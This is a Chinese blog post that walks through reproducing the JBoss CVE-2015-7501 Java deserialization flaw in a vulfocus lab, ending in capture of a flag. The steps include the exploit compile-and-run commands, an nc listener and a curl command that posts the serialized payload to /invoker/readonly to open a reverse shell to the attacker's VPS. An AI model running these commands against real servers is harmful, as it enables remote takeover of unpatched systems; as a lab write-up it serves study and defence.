





# JBoss CVE-2015-7501 - Colin.B - 博客园

> 原文：[`www.cnblogs.com/colin-B/p/15791601.html`](https://www.cnblogs.com/colin-B/p/15791601.html)

背景：
Red Hat JBoss Application Server（AS，也称 WildFly）是美国红帽（Red Hat）公司的一款基于 JavaEE 的开源的应用服务器，它具有启动超快、轻量、模块化设计、热部署和并行部署、简洁管理、域管理及第一类元件等特性。 红帽 JBoss A-MQ 6.x；BPM 套件 (BPMS) 6.x；BRMS 6.x 和 5.x；数据网格（JDG）6.x；数据虚拟化 (JDV) 6.x 和 5.x；企业应用平台 6.x、5.x 和 4.3.x；保险丝 6.x; 保险丝维修工程 (FSW) 6.x；运营网络（JBoss ON）3.x；传送门 6.x；SOA 平台 (SOA-P) 5.x；网络服务器（JWS）3.x；红帽 OpenShift/xPAAS 3.x；和 Red Hat Subscription Asset Manager 1.3 允许远程攻击者通过与 Apache Commons Collections (ACC) 库相关的精心设计的序列化 Java 对象执行任意命令。

漏洞编号：
CVE-2015-7501

影响版本：
JBoss A-MQ 6.x；BPM 套件 (BPMS) 6.x；BRMS 6.x 和 5.x；数据网格（JDG）6.x；数据虚拟化 (JDV) 6.x 和 5.x；企业应用平台 6.x、5.x 和 4.3.x；保险丝 6.x; 保险丝维修工程 (FSW) 6.x；运营网络（JBoss ON）3.x；传送门 6.x；SOA 平台 (SOA-P) 5.x；网络服务器（JWS）3.x；红帽 OpenShift/xPAAS 3.x；和 Red Hat Subscription Asset Manager 1.3

复现步骤：
1，打开漏洞环境 vulfocus

2，访问 invoker/JMXInvokerServlet，确定存在漏洞

3，下载 https://github.com/ianxtianxt/CVE-2015-7501/
执行 javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

4，运行 java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap ip：port 生成 ReverseShellCommonsCollectionsHashMap.ser 文件

5，在服务器开启 nc 监听

6，执行 curl [`vulfocus.fofa.so:60494/invoker/readonly`](http://vulfocus.fofa.so:60494/invoker/readonly) --data-binary @ReverseShellCommonsCollectionsHashMap.ser

7，VPS 上得到反弹 shell

8，得到 flag
